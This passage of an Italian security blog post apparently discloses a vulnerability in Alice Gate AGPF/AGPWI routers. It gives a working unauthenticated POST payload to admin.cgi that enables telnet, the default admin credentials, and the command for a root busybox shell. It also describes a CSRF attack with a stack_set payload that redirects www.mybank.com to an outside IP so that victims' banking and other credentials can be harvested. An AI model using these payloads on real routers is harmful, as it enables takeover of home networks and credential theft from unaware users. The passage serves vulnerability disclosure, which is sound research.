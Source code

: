 Il parametro POST `stack_set` contiene intere parti di configurazione che vengono scritte sul file `discus.conf` interno. Interpretando la sintassi si può tentare la modifica di un path diverso da quello dalla richiesta originale. Il parametro `active_page` cambia da versione a versione di AGPF e AGPWI, ma il formato della richiesta rimane identica. Per prova, cambiamo il path `admin/telnets/disabled` da `1` a `0` in modo da attivare il servizio telnet:

```php

/admin.cgi?active_page=9130&page_title=Alice - Info&mimic_button_field=submit_button_avanti: avanti..&button_value=attiva&strip_page_top=0&stack_set=(set
  (0
    (path(admin/telnets/disabled))
    	(set(disabled(0)))
  )
)
```

E la porta telnet è aperta. Colleghiamoci alla porta 23 con il comando `telnet 192.168.1.1` utilizzando come username *admin* e come password *riattizzati*. Con il comando `help` si vedono i comandi disponibili, e con `system shell` si spawna una shell busybox nel Linux installato. Suggerisco di aprire le interfacce di amministrazione principali quali telnet e menù avanzato di amministrazione per poi gestire comodatemente le altre configurazioni senza dover fare POST request ogni volta. 

<h1 id="CSRF"> CSRF </h1>

La tecnica di riconfigurazione descritta sopra via semplice richiesta POST si presta perfettamente ad un attacco [CSRF](http://it.wikipedia.org/wiki/Cross-site_request_forgery) con cui forzare il browser di un utente vittima a effettuare una richiesta volta a prendere il controllo del suo router. Le condizioni necessarie a un attacco sono abilitate di default:

- Nessuna autenticazione è richiesta per accedere all'interfaccia web
- Nessun token anti CSRF è utilizzato

E' quindi sufficiante forgiare una pagina web e farci accedere il malcapitato per effettuare un qualsiasi attacco come quelli descritti nell'[articolo]({{ site.url }}/2012/09/02/alice-gate-agpf-csrf-reconf-vulnerability) introduttivo. Intercettare le connessioni sottraendo le credenziali di mail, siti social, home banking etc. è uno degli attacchi più semplici da effettuare: poichè gli host collegati alla rete interna del router utilizzano come DNS server il router stesso, è sufficiente aggiungere una entry per deviare le connessioni verso un sito clone, o un reverse proxy, con cui raccogliere le credenziali degli utenti vulnerabili. 

Vediamo come preparare una pagina HTML, che quando visualizzata da un utente vulnerabile configura il router in modo che rediriga tutte le connessioni successive a *www.mybank.com* verso *disse.cting.org*, questo blog.

```php
(stack_set
  (0
    (path(dns/entry))
    (index(-1))
    (set
      (-1
        (ip(109.168.126.241))
        (hostname(www.mybank.com))
      )
    )
  )
)
```
